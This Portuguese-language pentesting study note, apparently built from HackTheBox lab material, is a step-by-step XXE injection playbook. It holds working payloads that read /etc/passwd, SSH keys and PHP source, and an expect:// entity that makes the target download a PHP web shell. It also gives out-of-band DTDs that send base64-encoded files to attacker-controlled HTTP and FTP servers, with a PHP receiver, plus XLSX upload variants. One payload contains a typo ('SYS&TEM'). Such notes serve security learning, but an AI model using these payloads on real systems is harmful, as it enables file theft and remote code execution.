



# XXE (XML External Entities)

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

- **XXE** (HackTheBox)
    - **XML External Entity (XXE) →** quando entradas XML nao sao validadas corretamente, permitindo entidades externas (arquivos, URLs..)
    
    ---
    
    - Para encontrarmos possiveis XXEs:
    1. **Procurar formularios (Ex: contato, login, feedback, checar estoque..) e que ao preencher e enviar algum campo seja de preferencia refletido (se nao for, tentar RCE la embaixo) no site (email, etc)**
        
        (tentar **`?xml`** com qualquer valor na URL e ver como eh a response… em endpoints ex: `/product/1?xml=` trocar de GET pra POST)
        
        (podemos tambem conseguir XXE com File Upload! Arquivos como **`.svg`** e **`.xml`.** Ver + info de exploracao no PayloadAllTheThings)
        
    2. **Preencher o formulario e interceptar o envio, e checar se o `Content-Type` eh XML (`application/xml`) e que a estrutura do body eh XML (Ex: `<?xml .. <email>…`)**
    3. Testar criacao de entidade → enviamos no comeco do body um a declaracao da variavel company:
        
        ```xml
        <!DOCTYPE email [
          <!ENTITY company "Inlane Freight">
        ]>
        ```
        
        E no campo refletido inserimos **`&company;`** e vemos na response se “Inlane Freight” eh refletido.
        
        
        
    
    ```bash
    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example "Doe"> ]>
     <userInfo>
      <firstName>John</firstName>
      <lastName>&example;</lastName>
     </userInfo>
    ```
    
    Se o resultado disso tudo for algo como:
    
    ```bash
    <?xml version="1.0"?>
    <data><error>X-Token not supplied</error></data>
    ```
    
    Podemos Inserir o X-Token como tag mesmo nao sabendo para ver se eh REFLETIDO. Ex:
    
    ```bash
    <?xml version="1.0"?><!DOCTYPE replace [<!ENTITY example "Doe"> ]>
    <data><X-Token>&example;</X-Token></data>
    ```
    
    Se refletir o example (Doe), ira refletir file e tudo que quisermos..
    
    ---
    
    - Agora que confirmamos XXE, podemos prosseguir para exploracao:
    - **Exploracao padrao**
        - **Reading Sensitive Files**
            - Mesma coisa do 3passo acima, porem agora declaramos a variavel como um arquivo file:
                
                ```xml
                <!DOCTYPE email [
                <!ENTITY company SYSTEM "file:///etc/passwd">
                ]>
                ```
                
                - E **`&company;`** no campo refletido
                
                AO ENCONTRAR usuarios no etc/passwd, tentar ler a chave SSH deles
                
        - **Reading Source Code**
            - Mesma coisa do 3passo acima, porem agora declaramos a variavel como:
                
                ```xml
                <!DOCTYPE email [
                  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
                ]>
                ```
                
                - E **`&company;`** no campo refletido
        - **RCE (refletindo ou nao)**
            - Se for refletido, mantemos igual os de cima, apenas mudamos a variavel:
                
                ```xml
                <!DOCTYPE email [
                  <!ENTITY company SYSTEM "expect://id">
                ]>
                ```
                
            
            ---
            
            - Se nao for refletido:
            - Criamos um payload de shell reversa php e abrimos servidor no nosso terminal:
                
                ```bash
                echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
                sudo python3 -m http.server 80
                ```
                
            - Agora a variavel para enviar pro site:
                
                ```xml
                <!DOCTYPE email [
                  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'<NOSSO_IP>/shell.php'">
                ]>
                ```
                
        - SE DEREM ERRO, podemos tentar Bypass abaixo
    - **BYPASS (Advanced File Disclosure)**
        - **1. Exfiltração com CDATA**
            - Primeiro criamos um arquivo DTD no nosso terminal e abrimos servidor:
                
                ```bash
                echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
                
                python3 -m http.server 8000
                ```
                
            - Agora inserimos o codigo abaixo (ALTERAR IP E NOME DO ARQUIVO PHP (esta como **`submitDetails.php`**)) e na variavel embaixo:
                
                ```xml
                <!DOCTYPE email [
                  <!ENTITY % begin "<![CDATA["> 
                  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> 
                  <!ENTITY % end "]]>">
                  <!ENTITY % xxe SYS&TEM "http://10.10.16.38:8000/xxe.dtd">
                  %xxe;
                ]>
                ```
                
            - **E na variavel: `&joined;`**
            
            ---
            
        - **2. Error-Based XXE**
            - NO BURP MUDAR O CAMINHO DA URL PARA TER UM /ERROR ANTES DA PAGINA (Ex:**`/error/index.php`**) e inserir entidade inexistente no valor do campo: **`&nonExistingEntity;`** e ver se resulta em erro.
            - Agora criamos um arquivo dtd no nosso terminal:
                
                ```xml
                <!ENTITY % file SYSTEM "file:///etc/hosts">
                <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
                ```
                
            - Abrimos o servidor:
                
                ```bash
                python3 -m http.server 8000
                ```
                
            - E inserimos no body (alterar IP):
                
                ```xml
                <!DOCTYPE email [
                  <!ENTITY % remote SYSTEM "http://10.10.16.38:8000/xxe.dtd">
                  %remote;
                  %error;
                ]>
                ```
                
            - DEIXAR **`&nonExistingEntity;`** no campo
            
            ---
            
        - **3. Blind Data Exfiltration**
            - Quando não temos reflexão **nem erros**, usamos um bypass por **requisição externa (OOB)**.
            - Primeiro, no nosso terminal criamos o arquivo **`dtd`** (trocar IP) e tambem um **`index.php`** e rodamos o servidor:
                
                ```bash
                <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
                <!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.16.38:8000/?data=%file;'>">
                ```
                
                ```bash
                <?php
                if(isset($_GET['data'])){
                error_log("\n\n" . base64_decode($_GET['data']));
                }
                ?>
                ```
                
                ```bash
                 php -S 0.0.0.0:8000
                ```
                
            - Agora enviamos o payload XML no body (trocar IP):
                
                ```bash
                <!DOCTYPE email [
                <!ENTITY % remote SYSTEM "http://10.10.16.38:8000/xxe.dtd">
                %remote;
                %oob;
                ]>
                ```
                
            - **e TROCAR variavel → `&content;`**
            
            ---
            
            - Podemos tambem fazer de forma automatizada → [https://github.com/enjoiz/XXEinjector](https://github.com/enjoiz/XXEinjector)
    
    ---
    
- **XXE em Upload de arquivo XLSX (excel)**
    
    Ir no diretorio da home → XXE.
    
    Ex Blind de CONFIRMACAO de XXE: Dentro do diretorio XXE novamente, estarao os arquivos que compoe o xlsx descompactados, damos um `nano` no **`xl/wordkbook.xml`** com o payload do **PayloadAllTheThings** (ja esta com payload, apenas mudar IP)
    
    Depois de mudarmos, reconstruimos o arquivo:
    
    **`7z u xxe.xlsx *`**
    
    So dar Upload agora, no site tem outros payloads para outros arquivos e outros casos..
    
    **PARA EXPLORAR, LER FILES EM UM BLIND XXE:**
    
    (basicamente estamos recebendo via o servidor python um GET no nosso arquivo xxe.dtd que tem instrucoes de pegar um arquivo (ex: etc/passwd) e enviar para nosso servidor FTP onde guardara em files.log):
    
    nano em **`xxe.dtd`**:
    
    ```bash
    <!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://<NOSSO_IP>:2121/%d;'>">a
    ```
    
    Dentro de **`~/XXE`**:
    
    **`python3 -m http.server 8000`**
    
    Dentro de **`~/XXE/xxeserv`**:
    
    **`./xxeserv -p 2121 -o files.log`**
    
    AGORA em files.log estara o resultado em base64 do arquivo lido (no caso etc/passwd)
    
    ---
    
- **XXE na prática** (SYCP)
    - REVER video (acho q eh feito a partir de uma vuln de File Upload..)
    - Quando o site tem um upload de imagem, nesse caso é um envio de reclamação com upload de imagem. Podemos ver no inspecionar e no input do upload dentro do código para ver quais tipos de arquivos são suportados/permitidos.
    - Nesse caso do video, apenas eh permitido pdf ou zip, podemos tentar enviar um txt para ver o que acontece, e depois mudar o nome do arquivo txt para .pdf, assim veremos se o site confere se é um pdf mesmo ou se ele permite enviar apenas pelo fato de ter .pdf no nome. Abrir o Burp também para checar que ao enviar um arquivo .pdf podemos interceptar e trocar para .txt, pode ser que de certo caso a verificação esteja apenas no Client-side.
    - Porém nesse exemplo o **XXE** consiste em conseguirmos fazer upload de um arquivo xml:
        - Pegar um código qualquer de exemplo xml e inserir dentro do arquivo `.xml`, e fazer o upload, apenas para ver como a aplicação se comporta. Caso não crashe o site, significa que provavalmente tem um parser de xml que fez o parsing.
        - Entidade no XML:
            
            
            
            - Definimos a variável entity xxe, e chamamos no código embaixo, que irá atribuir o valor “TESTANDO”
            
            
            
            - Coloca as informações do file passwd dentro da variável xxe, e chama ela pra mostrar o conteúdo (nesse caso a file ta escrita para caso o sistema seja Linux, podemos alterar depois se não der certo)
            - Ativar o proxy abrir o Burp e fazemos upload do XML, dentro do Repeater no Response o conteúdo será refletido
        - É possível fazer um DOS caso não exista tratamentto de erro no servidor, ao fazer upload de um arquivo XML com conteúdo quebrado (ex: conteúdo → afkijdsfds)
